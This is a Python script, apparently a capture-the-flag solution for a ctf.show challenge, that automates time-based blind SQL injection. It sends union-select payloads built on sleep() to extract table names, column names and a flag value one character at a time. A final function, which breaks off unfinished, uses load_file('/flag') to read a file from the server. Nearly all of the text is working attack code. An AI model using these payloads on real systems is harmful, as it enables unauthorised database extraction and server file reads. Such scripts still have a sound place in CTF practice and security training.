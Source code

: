 ```python
import requests
# 版本二
url = "http://733e9e58-4f32-45d6-9d50-174ce69f7ca8.challenge.ctf.show/?action=check&username="

end = "&password=1"

strings ="}abcdefghijklmnopqrstuvwxyz0123456789{,-@"
def get_table_name():
    ret = ''
    for x in range(1,10):
        for y in strings:
            payload = "') union select if(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1)='{}',sleep(2),1)--+".format(x,y)
            try:
                response = requests.get(url+payload+end,timeout=2)
                #print(response.url)
            except:
                ret+=y
                print(ret)
    return ret
def get_flag_columns():
    columns = ''
    for x in range(1,50):
        for y in strings:
            payload = "') union select if(substr((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'),{},1)='{}',sleep(2),1)--+".format(
                x, y)
            try:
                response = requests.get(url + payload + end, timeout=2)
                # print(response.url)
            except:
                columns += y
                print(columns)
                break
        if y=='@':
            break
    return columns
def get_flag():
    flag = ''
    for x in range(17, 50):
        for y in strings:
            payload = "') union select if(substr((select flag from flag),{},1)='{}',sleep(2),1)--+".format(
                x, y)
            try:
                response = requests.get(url + payload + end, timeout=2)
                # print(response.url)
            except:
                flag += y
                print(flag)
                break
        if y =='@':
            break
    return flag
def get_flag2():
    flag = ''
    for x in range(1, 50):
        for y in strings:
            payload = "' or 1=1 and if(substr((select load_file('/flag')),{},1)='{}',sleep(2),1)--+".format(
                x, y)
            try:
```